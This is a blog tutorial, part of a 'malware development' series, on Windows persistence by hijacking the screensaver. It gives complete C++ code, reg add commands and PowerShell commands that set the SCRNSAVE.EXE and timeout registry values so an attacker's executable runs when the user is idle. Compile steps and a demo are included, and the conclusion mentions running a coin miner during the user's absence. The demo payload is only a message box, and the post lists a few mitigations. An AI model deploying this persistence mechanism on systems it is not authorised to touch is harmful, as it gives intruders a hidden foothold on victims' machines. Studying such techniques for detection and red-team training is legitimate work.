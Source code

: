 ```yaml
---
title:  "Malware development: persistence - part 2. Screensaver hijack. C++ example."
date:   2022-04-26 10:00:00 +0600
header:
  teaser: "/assets/images/52/2022-04-27_03-07.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/52/2022-04-27_03-07.png){:class="img-responsive"}    

This post is a second part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Abusing screensavers.    

### screensavers

Screensavers are programs that execute after a configurable time of user inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence. Screensavers are PE-files with a `.scr` extension by default and settings are stored in the following registry keys:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    
![pers](/assets/images/52/2022-04-27_03-23.png){:class="img-responsive"}    

set to `1` to enable screensaver.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - sets user inactivity timeout before screensaver is executed.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - set the app path to run.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* from [previous](/tutorial/2022/04/20/malware-pers-1.html) part `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/52/2022-04-27_02-04.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-26-malware-pers-2\`:    

![pers](/assets/images/52/2022-04-27_03-29.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when user inactive `10` seconds:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry keys for timeout and app path. Registry keys can be added from the `cmd` terminal:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d Z:\2022-04-26-malware-pers-2\hack.exe
```

or `powershell` commands:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'Z:\2022-04-26-malware-pers-2\hack.exe'
```

but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/52/2022-04-27_02-06.png){:class="img-responsive"}    

Then, for the purity of experiment, first of all, check registry keys in the victim's machine and delete keys if exists:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
```

![pers](/assets/images/52/2022-04-27_03-43.png){:class="img-responsive"}    

![pers](/assets/images/52/2022-04-27_03-48.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](/assets/images/52/2022-04-27_04-14.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again and wait `10` seconds or just inactive `10` seconds:    

![pers](/assets/images/52/2022-04-27_04-13_1.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](/assets/images/52/2022-04-27_04-18.png){:class="img-responsive"}    

### conclusion

The problem with this persistence trick is that the session is terminated when the user comes back and the system is not idle. However, red teams can perform their operations (something like coin miner) during the user's absence. If screensavers are disabled by group policy, this method cannot be used for persistence. Also you can block `.scr` files from being executed from non-standard locations.   

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
